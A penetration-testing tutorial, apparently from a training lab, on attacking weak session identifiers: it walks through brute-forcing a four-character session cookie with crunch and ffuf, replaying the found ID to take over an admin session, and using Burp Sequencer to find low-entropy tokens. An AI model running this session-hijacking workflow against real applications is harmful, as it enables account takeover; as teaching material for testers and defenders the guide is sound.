


Correct session variable handling on the server side is not enough if the session identifier itself can be guessed or brute-forced. A session ID is effectively a bearer credential, anyone who presents a valid one is treated as the user it belongs to, without further proof of identity. If an attacker can predict or enumerate valid session IDs, they can hijack active sessions without ever touching the login form. Two properties determine whether a session ID is secure: its length and its randomness. Both need to hold, a long session ID generated with a weak random source is just as exploitable as a short one generated perfectly randomly.

---

## Short Session IDs

OWASP recommends a minimum of 16 bytes of underlying random value for a session identifier. This refers to the entropy source behind the ID, not the length of its string representation, a 32-character hex string only has 16 bytes of randomness behind it, while a 32-character string built from a smaller charset or a partially fixed structure can have far less. If the effective length is too short, the entire keyspace becomes small enough to brute-force in a realistic timeframe.

### Identifying Short Session IDs

Authenticate against the application and inspect the session cookie set in the response:

```http
POST /login.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

username=student&password=Academy_student!
```

```http
HTTP/1.1 302 Found
Set-Cookie: sessionID=k9x2
Location: /profile.php
```

A four-character session ID is an immediate red flag. Before brute-forcing, log in a few times to determine the charset in use, lowercase letters, digits, uppercase, or a mix, since this directly determines the size of the keyspace to target.

### Exploiting Short Session IDs

With a four-character identifier built from lowercase letters and digits (36 possible characters), the full keyspace is only 36^4, about 1.6 million combinations, well within brute-force range.

Generate a wordlist covering the full keyspace with crunch:

```bash
sudo apt install crunch
crunch 4 4 "abcdefghijklmnopqrstuvwxyz1234567890" -o wordlist.txt
```

Fuzz the session cookie against a protected endpoint with ffuf, filtering out the redirect response that indicates an invalid or unauthenticated session:

```bash
ffuf -u http://webapp.corp/profile.php -b 'sessionID=FUZZ' -w wordlist.txt -fc 302 -t 10
```

```
a7sh                    [Status: 200, Size: 2262, Words: 497, Lines: 67, Duration: 6ms]
```

Any response that does not match the filtered status code is a valid, active session. Replaying it confirms account takeover:

```http
GET /profile.php HTTP/1.1
Host: webapp.corp
Cookie: sessionID=a7sh
```

```http
HTTP/1.1 200 OK

Logged in as: admin
```

The attacker never authenticated as the admin, the session ID alone was enough to assume their identity.

---

## Insufficient Randomness in Session IDs

Length alone does not guarantee security. A session ID can be long but still predictable if the underlying generator has low entropy, uses a predictable seed, or embeds fixed or derivable values such as timestamps, counters, or encoded usernames. OWASP sets a baseline of at least 64 bits of entropy for a session identifier to be considered resistant to brute-forcing.

### Identifying Low Entropy

A session ID that looks random at a glance can still fail this check:

```http
POST /login.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

username=student&password=Academy_student!
```

```http
HTTP/1.1 302 Found
Set-Cookie: sessionID=f3a9c1e7b2d84f0a9e3c7b1a2d4f8e01
Location: /profile.php
```

Visual inspection is not reliable for judging randomness, statistical analysis is required. Burp Suite's Sequencer tool is built for exactly this.



Switch to the **Sequencer** tab. In the **Live Capture** sub-tab, Burp attempts to auto-detect where the token is located in the response. Check the **Token Location Within Response** section:



### Interpreting the Results

Burp reports an overall entropy estimate and a character position breakdown. An estimate around 14 bits is drastically below the 64-bit baseline and translates to roughly 16,000 possible values, small enough to brute-force in minutes depending on request throughput. The per-character analysis is equally important, it shows which byte or character positions in the token contribute no entropy at all, meaning they are constant or derived from predictable input (timestamp, counter, fixed prefix) rather than a secure random source.

| Entropy estimate | Practical implication                                                |
| ---------------- | -------------------------------------------------------------------- |
| 64+ bits         | Meets OWASP baseline, brute-force infeasible with standard resources |
| 32-63 bits       | Weak, feasible for a sustained or distributed brute-force            |
| Under 20 bits    | Trivially brute-forceable, equivalent in risk to a short session ID  |

### Exploiting Low Entropy

Once weak or fixed positions are identified, the effective keyspace collapses the same way it does for a short session ID. If, for example, 28 of 32 characters turn out to be fixed or predictable, the attack reduces to brute-forcing only the remaining 4 characters, exactly as in the short session ID case, using the same crunch and ffuf workflow against the fixed template with the variable positions substituted by FUZZ.

The underlying fix in both cases is the same from a testing perspective, the application must generate session identifiers using a cryptographically secure random number generator with sufficient output length, rather than relying on counters, timestamps, weak PRNGs, or truncated hashes.